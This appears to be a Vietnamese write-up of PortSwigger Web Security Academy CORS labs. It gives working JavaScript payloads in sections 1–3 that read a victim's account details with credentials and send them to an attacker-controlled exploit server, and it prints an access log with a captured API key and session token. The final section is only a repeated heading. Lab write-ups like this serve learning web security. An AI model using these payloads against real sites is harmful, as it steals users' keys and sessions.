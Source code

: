 # 1. CORS vulnerability with basic origin reflection
Ta thấy khi gửi request `GET /accountDetails`, trong response sẽ chứa thông tin đầy đủ về user trong phiên hiện tại. Như vậy ta vào exploit server và cấu hình đoạn code sau:

```
<script>
let xhr = new XMLHttpRequest();
xhr.onload = sendRequest;
xhr.open('GET', 'https://0a9f008704a74bedc06f45ff00f600cd.web-security-academy.net/accountDetails');
xhr.withCredentials = true;
xhr.send();

function sendRequest(){
fetch('https://exploit-0ab7003c04f14b63c07644d50138000b.exploit-server.net/exploit?apiKey='+this.responseText);
}
</script>
```
Đoạn script trên sẽ gửi request đến `/accountDetails`, lấy ra response rồi đặt làm tham số trong request gửi tới exploit server mà ta kiểm soát.

Sau khi click "Deliver to victim", vào Access log ta thấy có một request với tham số apiKey là một object:

![image](https://user-images.githubusercontent.com/103978452/210699785-c2fc9ed4-50fa-4d0c-82cd-3424d39d6f3b.png)

Thực hiện URL decode, rồi lấy giá trị của trường "apikey" để submit, kết quả thành công.

# 2. CORS vulnerability with trusted null origin
Nhận thấy trong request `/accountDetails`, khi đặt `Origin: null` thì response trả về chứa header `Access-Control-Allow-Origin: null`. Như vậy ta có thể exploit bằng cách dùng tag iframe để tự động thiết lập `Origin: null`.

Vào exploi server và cấu hình đoạn code sau:
```
<iframe src="data:text/html,<script>let xhr = new XMLHttpRequest();
xhr.onload = sendRequest;
xhr.open('GET', 'https://0a47008204d3fe7bc0c6c26e00f2002c.web-security-academy.net/accountDetails');
xhr.withCredentials = true;
xhr.send();

function sendRequest(){
document.location='https://exploit-0a400044046dfe6ec0d3c132019600e6.exploit-server.net/?data='+this.responseText;
}
</script>">
```

Do thẻ iframe có thuộc tính `src="data:text/html,....`, Origin sẽ tự động được thiết lập là null và từ đó có thể bypass CORS. Sau khi click "Deliver to victim", vào trong Access log thì ta thấy có request:
```
10.0.4.254      2023-01-06 08:51:25 +0000 "GET /?data={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22n2daOK1lnvFCmG9DwadLa7iTt1vZieUi%22,%20%20%22sessions%22:%20[%20%20%20%20%22OZnSVCGK2EuB1QXu7RplVCP9Osicu5Gg%22%20%20]} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
```

Tiến hành URL decode, ta thu được `apikey=n2daOK1lnvFCmG9DwadLa7iTt1vZieUi`. Submit thông tin có được, kết quả thành công.

# 3. CORS vulnerability with trusted insecure protocols
<script>
document.location="https://stock.0af4007804f8391dc0d57751008800c4.web-security-academy.net/?productId=%3Cscript%3Elet%20xhr%20%3D%20new%20XMLHttpRequest%28%29%3Bxhr.onreadystatechange%20%3D%20printResponse%3Bxhr.open%28%27GET%27%2C%20%27https%3A%2F%2F0af4007804f8391dc0d57751008800c4.web-security-academy.net%2FaccountDetails%27%29%3Bxhr.withCredentials%20%3D%20true%3Bxhr.send%28%29%3Bfunction%20printResponse%28%29%7B%20%20%20%20console.log%28encodeURIComponent%28this.responseText%29%29%3B%7D%3C%2Fscript%3E&storeId=1"
</script>

# 4. CORS vulnerability with internal network pivot attackCORS vulnerability with internal network pivot attack
